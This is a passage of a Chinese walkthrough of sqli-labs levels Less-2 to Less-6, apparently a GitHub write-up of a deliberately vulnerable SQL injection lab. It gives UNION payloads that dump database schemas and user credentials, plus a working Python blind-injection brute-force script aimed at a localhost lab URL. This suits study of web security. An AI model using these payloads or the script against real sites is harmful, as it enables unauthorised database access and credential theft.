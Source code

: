#### Less-2
传入一个单引号试探注入点，发现报错
```
..... syntax to use near '' LIMIT 0,1' at line 1
```
推测和Less-1唯一的区别在于没有单引号，只是用数字进行查询，例如
```
SELECT * FROM users WHERE id=$id LIMIT 0,1
```
所以payload和Less-1差别只在于一个单引号
```
-1 union select 1,2,3 %23
-1 union select 1,2,group_concat(schema_name) from information_schema.schemata%23
-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1 union select 1,group_concat(username),group_concat(password) from users%23
```
#### Less-3
题目名字叫，Single quotes with twist string (基于错误的GET单引号变形字符型注入)
测试 ?id=1' 得到
```
...... syntax to use near ''1'') LIMIT 0,1' at line 1
```
猜测语句
```
SELECT * FROM users WHERE id=('$id') LIMIT 0,1
```
所以通过前面加 -1') 闭合前面 尾部加%23 （#的url编码）中间就可以为所欲为了
```
SELECT * FROM users WHERE id=('   -1'){{为所欲为}}#23    ') LIMIT 0,1
```
所以payload
```
-1')union select 1,2,3 %23
-1')union select 1,2,group_concat(schema_name) from information_schema.schemata%23'
-1')union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1')union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1')union select 1,group_concat(username),group_concat(password) from users%23
```
#### Less-4 
尝试'并未发现报错，尝试"发现报错
```
syntax to use near '"1"") LIMIT 0,1' at line 1
```
猜测语句
```
SELECT * FROM users WHERE id=("$id") LIMIT 0,1
```
所以payload和3差不多只是单引号变双引号
```
-1")union select 1,2,3 %23
-1")union select 1,2,group_concat(schema_name) from information_schema.schemata%23'
-1")union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1")union select 1,group_concat(username),group_concat(password) from users%23
```
#### Less-5 在导航页里显示的是要使用双查询
发现正常或者注入成功是这样的
![](image/Sqli-Labs-Sqlmap-基础篇/9.png)
而一旦出错会抱错
![](image/Sqli-Labs-Sqlmap-基础篇/8.png)
显然是布尔注入而且猜测语句
```
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```
当然就可以很多操作了，通过substr()、ascii()爆破也能得到一切
打个比方
```
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>80%23     
//截取数据库下第一个表的第一个字符与80ascii值进行对比

找第二个字符只需要改成substr('xxx',2,1)即可。
找第二个表改成limit 1,1
```
也可以直接拿这个盲注脚本爆破，参数自己改就行了
![](image/Sqli-Labs-Sqlmap-基础篇/11.png)

```python
#!/usr/bin/env python
# encoding:utf8

import requests
import time
import sys

# config-start
sleep_time = 5
error_time = 1
# config-end

def getPayload(indexOfResult, indexOfChar, mid):
	column_name="schema_name"
	table_name="schemata"
	database_name="information_schema"
	startStr = "1'and "
	endStr = " and'1'='1"
	payload = "((ascii(substring((select " + column_name + " from " + database_name + "." + table_name + "  limit " + indexOfResult + ",1)," + indexOfChar + ",1)))>" + mid + ")"
	payload = startStr + payload + endStr
	return payload

def exce(indexOfResult,indexOfChar,mid):
	# content-start
	url = "http://localhost/sqli-labs-master/Less-5/?id="
	tempurl = url + getPayload(indexOfResult,indexOfChar,mid)
	content = requests.get(tempurl).text
	# content-end
	# judge-start
	if "You are in..........." in content:
		return True
	else:
		return False
	# judge-end

def doubleSearch(indexOfResult,indexOfChar,left_number, right_number):
	while left_number < right_number:
		mid = int((left_number + right_number) / 2)
		if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
			left_number = mid
		else:
			right_number = mid
		if left_number == right_number - 1:
			if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
				mid += 1
				break
			else:
				break
	return chr(mid)

def search():
	for i in range(32): # 需要遍历的查询结果的数量
		counter = 0
		for j in range(32): # 结果的长度
			counter += 1
			temp = doubleSearch(i, j, 0, 127) # 从255开始查询
			if ord(temp) == 1: # 当为1的时候说明已经查询结束
			    break
			sys.stdout.write(temp)
			sys.stdout.flush()
		if counter == 1: # 当结果集的所有行都被遍历后退出
			break
		sys.stdout.write("\r\n")
		sys.stdout.flush()

search()
```
#### Less-6 
Less-6和Less-5的关系就和1♂2，3♂4的关系一样 把'改成"在脚本上修改就很行了

[下一篇-7~10题详解](README3.md)

更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)